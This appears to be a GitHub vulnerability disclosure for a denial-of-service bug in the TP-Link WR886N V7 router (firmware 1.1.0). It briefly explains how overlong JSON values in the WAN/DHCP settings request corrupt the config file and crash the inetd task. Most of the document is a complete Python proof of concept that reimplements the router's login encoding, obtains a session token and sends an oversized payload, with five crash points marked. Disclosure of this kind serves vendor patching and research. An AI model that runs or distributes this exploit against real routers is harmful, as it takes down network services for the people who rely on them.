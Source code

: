 # TP-Link WR886N V7 Inetd Task Dos  

**Vender**：TP-Link

**Firmware version**: 1.1.0

**Hardware version**: TL-WR886N 7.0

**Exploit Author**: lbp@galaxylab.org

**Vendor Homepage**: http://www.tp-link.com.cn/

**Hardware Link**:http://www.tp-link.com.cn/product_397.html

## Vul detail ##
In the router module `protocol`, user can setup wan parameters with http post request. An normal request looks like below.

![](normal_post_request.png)

After setup wan parameters parameters, `protocol` module will save data to config file.

![](normal_config_file.png)

If we send request with long value in specific json key, it will overflow and break the `protocol` module config file. 

If the string long enough it will also crash the inetd task, this will stop most network services, such as http, dns and upnp.  

![](inetd_crash.png)

## POC

```python
import requests


def security_encode(a):
    c = "RDpbLfCPsJZ7fiv"
    b = "yLwVl0zKqws7LgKPRQ84Mdt708T1qQ3Ha7xv3H7NyU84p21BriUWBU43odz3iP4rBL3cD02KZciXTysVXiV8ngg6vL48rPJyAUw0HurW20xqxv9aYb4M9wK1Ae0wlro510qXeU07kV57fQMc8L6aLgMLwygtc0F10a0Dg70TOoouyFhdysuRMO51yY5ZlOZZLEal1h0t9YQW0Ko7oBwmCAHoic4HYbUyVeU3sfQ1xtXcPcf1aT303wAQhv66qzW"
    d = ''
    e = f = g = h = k = 187
    m = 187
    f = len(a)
    g = len(c)
    h = len(b)
    if f > g:
        e = f
    else:
        e = g

    for i in range(e):
        m = k = 187
        if i >= f:
            m = ord(c[i])
        elif i >= g:
            k = ord(a[i])
        else:
            k = ord(a[i])
            m = ord(c[i])
        d += b[(k ^ m) % h]
    return d


def get_token(password):
    print(security_encode(password))
    login_url = 'http://192.168.1.1/'
    login_data = {"method": "do",
                  "login": {
                      "password": security_encode(password)
                  }
                  }
    rsp = requests.post(login_url, json=login_data)
    rsp_json = rsp.json()
    if rsp_json['error_code'] == 0:
        return rsp_json['stok']
    # set password
    elif rsp_json['error_code'] == -40401:
        set_password = {
            "method": "do",
            "set_password": {
                "password": security_encode(password)
            }
        }
    rsp = requests.post(login_url, json=set_password)
    rsp_json = rsp.json()
    if rsp_json['error_code'] == 0:
        # get token again
        return get_token(password)


password = 'password'
burp0_url = "http://192.168.1.1/stok=%s/ds" % get_token(password)

burp0_headers = {"Accept": "application/json, text/javascript, */*; q=0.01", "Origin": "http://192.168.1.1", "X-Requested-With": "XMLHttpRequest", "User-Agent": "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_13_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/67.0.3396.99 Safari/537.36", "Content-Type": "application/json; charset=UTF-8", "Referer": "http://192.168.1.1/", "Accept-Encoding": "gzip, deflate", "Accept-Language": "en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7,zh-TW;q=0.6,ko;q=0.5", "Connection": "close"}
burp0_json = {
  "protocol": {
    "wan": {
      "wan_rate": "auto",
      "macaddr": "20-6B-E7-66-9C-B0"
    },
    "dhcp": {
      "dns_mode": "dynamic",
      "pri_dns": "0.0.0.0",
      "snd_dns": "0.0.0.0",
      "mtu": "1500",
      "hostname": "TL-WR886N"
    }
  },
  "method": "set"
}

burp0_json['protocol']['wan']['wan_rate'] = "%s" % ('A' * int(1.0 * 1024 * 1204))  # crash point 1
# burp0_json['protocol']['wan']['macaddr'] = "20-6B-E7-66-9C-B0%s" % ('A' * int(1.0 * 1024 * 1204))  # crash point 2
# burp0_json['protocol']['dhcp']['dns_mode'] = "%s" % ('A' * int(1.0 * 1024 * 1204))  # crash point 3
# burp0_json['protocol']['dhcp']['mtu'] = "%s" % ('A' * int(1.0 * 1024 * 1204))  # crash point 4
# burp0_json['protocol']['dhcp']['hostname'] = "%s" % ('A' * int(1.0 * 1024 * 1204))  # crash point 5

rsp = requests.post(burp0_url, headers=burp0_headers, json=burp0_json, timeout=3)
print(rsp.content)


```